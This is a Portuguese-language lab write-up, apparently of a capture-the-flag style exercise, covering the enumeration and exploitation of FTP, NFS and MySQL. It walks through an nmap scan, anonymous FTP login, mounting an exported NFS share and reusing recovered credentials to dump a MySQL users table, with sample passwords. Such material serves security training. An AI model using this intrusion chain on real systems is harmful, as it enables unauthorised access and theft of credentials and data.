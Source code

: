 # _**Contexto de aplicações web**_
Muitos serviços diferentes podem funcionar na internet  
Esses serviços podem ter muitos casos de uso diferentes
Atacar serviços sempre começa com **enumeração**  
Precisamos entender quais serviços estão em execução e onde estão em execução para começar a atacá-los  
Faríamos enumeração usando nmap ou ferramentas de varredura semelhantes  
Um aspecto que facilita nosso trabalho é que os serviços são conhecidos por serem executados em portas específicas  
Cada serviço tem sua própria porta padrão, o que também facilita sua identificação  

Depois de identificar um serviço que está sendo executado em uma porta aberta, podemos pensar em possíveis vetores de ataque  
Abaixo está a maneira mais comum de atacar serviços conhecidos:
* **Explorando configurações incorretas comuns**
* **Usando exploits disponíveis publicamente**

Os serviços geralmente são configurados pela administração do computador e, na maioria das vezes, esses serviços têm configurações padrão fracas  
Outras vezes, usaríamos informações como números de versão e tipo de serviço para procurar exploits públicos  
É uma boa prática sempre começar explorando configurações incorretas  
Se houver exploits públicos para um serviço em execução, não é aconselhável realizar testes destrutivos  

*** 

**Contexto de FTP**
**FTP é o protocolo de transferência de arquivos**  
O protocolo geralmente roda na porta 21 sobre o protocolo TCP  
FTP é um protocolo bastante antigo que é usado para transferir arquivos  
Um usuário tornaria um arquivo disponível carregando-o no servidor FTP, e outro usuário usaria um cliente FTP para se conectar ao servidor e baixar o arquivo  
Algumas configurações incorretas comuns para FTP incluem:
* **login anônimo**
* **Comunicação em texto simples**
* **Permissões ruins do sistema de arquivos**

Para se conectar a um servidor FTP, você pode usar o comando de linha de comando ftp: ```ftp [ip-address]```

***

**Contexto de NFS**
NFS é um compartilhamento de arquivos de rede que roda em TCP e UDP nas portas 111 e 2049  
Assim como FTP, NFS é usado para transferir arquivos  
Eles ainda são bem diferentes  
Enquanto FTP usa um modelo _cliente-servidor_ para se comunicar, NFS atua como um _sistema distribuído_  
Isso significa que um usuário pode acessar um compartilhamento em seu próprio sistema de arquivos  
Enquanto o FTP usa nome de usuário e senha para gerenciar autenticação e autorização para arquivos, o NFS usa o sistema de permissão do Linux para gerenciar essas coisas  
Configurações incorretas comuns incluem:
* **Compartilhamentos acessíveis publicamente**
* **Quando as permissões de um arquivo são diferentes, um invasor teria que alterar seu ID de usuário/ID de grupo para corresponder às permissões do arquivo**

O primeiro passo seria enumerar um sistema para verificar se o NFS está em execução  
Uma vez que o NFS esteja em execução, verificaríamos se há compartilhamentos disponíveis  
Isso é feito usando este comando: ```showmount -e [ip_address]```  
Este comando mostra todos os compartilhamentos exportados pelo NFS  
Se este comando gerar algum compartilhamento, você pode tentar montá-lo no seu sistema de arquivos: ```mount ip:/file/path /local/file/path```  
Observe que este comando exigiria permissões **sudo**  

Depois que ele for montado com sucesso, você pode navegar até o local no seu sistema de arquivos e tentar acessar os arquivos  
Após concluir isso, você precisa desmontar o sistema de arquivos usando o comando: ```umount /local/file/path```  

***

**Contexto de MySQL**
MySQL é um serviço que executa um servidor SQL  
Um servidor SQL é um tipo particular de servidor de banco de dados que usa linguagem de consulta estruturada (SQL) para adicionar e manipular dados  
O MySQL usa TCP e é executado na porta 3306 por padrão  
O SQL não tem nenhuma configuração incorreta comum que permita acesso direto, mas geralmente é usado como parte de uma cadeia de ataque  
Um invasor pode encontrar outras informações e usá-las para comprometer um servidor MySQL  
Se você encontrar um serviço MySQL em execução, tente se conectar ao serviço  
Se conseguir se conectar ao serviço, enumere o banco de dados das seguintes maneiras:
* **Examine bancos de dados**
* **Examine tabelas**
* **Procure informações confidenciais, como senhas e informações de identificação pessoal**

# _**Execução**_
> ```bash
> nmap -p 0-10000 -sV -A -T5 [ip_address]
> ```

<mark>Portas abertas</mark>  
* **21 | ftp (vsftpd 3.0.2) | anonymous login allowed**
* **22 | ssh (openssh 7.4)**
* **111 | rpcbind 2-4**
* **2049 | nfs_acl 3**
* **3306 | mysql 5.7.28**

<mark>Tentativa de login no serviço FTP</mark>
* ftp [ip_address]
* anonymous
* Login successful

<mark>Realizando o download do arquivo file.txt</mark>
* get file.txt
* cat file.txt
* remember to wipe mysql: root | ff912ABD*

<mark>Tentando se conectar em um servidor MySQL na porta 3306 com as credenciais acima</mark>
> ```bash
> mysql -h  [ip_address] -u root -p
> ```
_ERROR 2026 (HY000): TLS/SSL error: Certificate verification failure: The certificate is NOT trusted._

<mark>Tentando uma forma alternativa, verificação de mount na porta 2049</mark>
* showmount -e [ip_address]
* /opt/files *

<mark>Montando em meu diretório</mark>
* mount [ip_address]:/opt/files ../Downloads

<mark>Verificando os arquivos com ```ls```</mark>
* creds.txt

<mark>Verificando o conteúdo de creds.txt com ```cat```</mark>
* the password is securepassword123

<mark>Voltando a uma conexão mysql com esta nova senha</mark>  
_ERROR 1045 (28000): Access denied for user 'root'@'ip-10-9-0-126.eu-west-1.compute.internal' (using password: YES)_

<mark>Buscando informações na Internet, tenta-se novamente com o comando abaixo</mark>
* mysql -h  [ip_address] -u root -p
* ff912ABD*

<mark>Conexão feita. Agora, investigar o banco de dados</mark
* show * databases;
* show tables;
* select * from USERS;
* admin | bestpassword
